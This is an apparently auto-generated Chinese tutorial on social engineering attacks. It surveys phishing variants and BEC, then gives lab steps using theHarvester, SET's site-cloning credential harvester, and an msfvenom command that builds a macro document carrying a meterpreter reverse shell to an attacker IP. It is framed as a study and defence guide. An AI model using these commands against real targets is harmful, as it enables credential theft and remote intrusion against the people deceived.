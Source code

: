 # 社交工程欺诈检测的攻击技术

## 1. 技术原理解析

社交工程欺诈（Social Engineering Fraud）是一种通过心理操纵和欺骗手段获取敏感信息或访问权限的攻击方式。其核心在于利用人类的心理弱点，而非技术漏洞。攻击者通常通过伪装成可信实体（如公司、朋友或技术支持）来诱导受害者泄露信息或执行某些操作。

### 1.1 底层实现机制

社交工程欺诈的攻击机制可以分为以下几个步骤：

1. **信息收集**：攻击者通过公开渠道（如社交媒体、公司网站）收集目标的信息，包括姓名、职位、联系方式等。
2. **伪装与欺骗**：攻击者利用收集到的信息，伪装成可信实体，通过电子邮件、电话、短信等方式与目标接触。
3. **诱导与操纵**：攻击者通过心理操纵手段，诱导目标执行某些操作，如点击链接、下载附件、提供密码等。
4. **信息获取与利用**：一旦目标执行了攻击者诱导的操作，攻击者即可获取敏感信息或访问权限，进一步实施攻击。

### 1.2 常见攻击手法

1. **钓鱼攻击（Phishing）**：通过伪造的电子邮件或网站，诱导目标输入敏感信息。
2. **鱼叉式钓鱼（Spear Phishing）**：针对特定目标进行定制化的钓鱼攻击，通常利用目标的具体信息增加可信度。
3. **电话诈骗（Vishing）**：通过电话伪装成可信实体，诱导目标提供敏感信息或执行某些操作。
4. **短信诈骗（Smishing）**：通过短信发送虚假信息，诱导目标点击链接或回复信息。
5. **预文本攻击（Pretexting）**：通过编造虚假情境，诱导目标提供敏感信息或执行某些操作。

## 2. 变种与高级利用技巧

### 2.1 钓鱼攻击的变种

1. **克隆钓鱼（Clone Phishing）**：攻击者复制合法邮件的内容，替换其中的链接或附件为恶意内容，然后重新发送给目标。
2. **水坑攻击（Watering Hole Attack）**：攻击者入侵目标常访问的网站，植入恶意代码，当目标访问该网站时，自动下载恶意软件。
3. **商业电子邮件入侵（Business Email Compromise, BEC）**：攻击者入侵企业高管的电子邮件账户，冒充其身份发送欺诈邮件，诱导员工执行转账等操作。

### 2.2 高级利用技巧

1. **社会工程工具包（Social-Engineer Toolkit, SET）**：SET是一个开源工具，集成了多种社交工程攻击技术，如钓鱼、恶意文件生成等。
2. **恶意文档生成**：利用工具生成包含恶意宏的Office文档，当目标打开文档并启用宏时，恶意代码即被执行。
3. **二维码钓鱼**：生成恶意二维码，诱导目标扫描并访问恶意网站或下载恶意应用。

## 3. 攻击步骤与实验环境搭建指南

### 3.1 攻击步骤

1. **信息收集**：使用工具如`theHarvester`收集目标的公开信息。
   ```bash
   theHarvester -d example.com -b google
   ```
2. **伪装与欺骗**：使用SET生成钓鱼邮件。
   ```bash
   setoolkit
   ```
   选择`1) Social-Engineering Attacks`，然后选择`2) Website Attack Vectors`，最后选择`3) Credential Harvester Attack Method`。
3. **诱导与操纵**：将生成的钓鱼邮件发送给目标，诱导其点击链接并输入敏感信息。
4. **信息获取与利用**：通过SET的监听功能获取目标输入的敏感信息。

### 3.2 实验环境搭建

1. **虚拟机环境**：使用VMware或VirtualBox搭建虚拟机环境，安装Kali Linux作为攻击机，Windows 10作为目标机。
2. **网络配置**：确保攻击机和目标机在同一局域网内，能够相互通信。
3. **工具安装**：在Kali Linux中安装SET和其他必要工具。
   ```bash
   sudo apt-get install set
   ```

## 4. 实际命令、代码或工具使用说明

### 4.1 使用SET生成钓鱼邮件

1. 启动SET：
   ```bash
   setoolkit
   ```
2. 选择`1) Social-Engineering Attacks`。
3. 选择`2) Website Attack Vectors`。
4. 选择`3) Credential Harvester Attack Method`。
5. 选择`2) Site Cloner`。
6. 输入目标网站的URL和攻击机的IP地址。
7. SET将生成一个钓鱼网站，并监听目标输入的敏感信息。

### 4.2 使用theHarvester收集信息

1. 安装theHarvester：
   ```bash
   sudo apt-get install theharvester
   ```
2. 使用theHarvester收集目标的公开信息：
   ```bash
   theHarvester -d example.com -b google
   ```

### 4.3 使用恶意文档生成工具

1. 安装`msfvenom`：
   ```bash
   sudo apt-get install metasploit-framework
   ```
2. 生成恶意Word文档：
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f vba-exe > malicious.doc
   ```
3. 将生成的恶意文档发送给目标，当目标打开文档并启用宏时，攻击机将获得反向Shell。

## 5. 总结

社交工程欺诈检测的攻击技术多种多样，攻击者通过心理操纵和欺骗手段获取敏感信息或访问权限。了解这些攻击手法及其变种，有助于更好地防范和检测社交工程欺诈。通过搭建实验环境并使用相关工具，可以深入理解这些攻击技术的实现机制，并提高防御能力。

---

*文档生成时间: 2025-03-12 15:41:37*
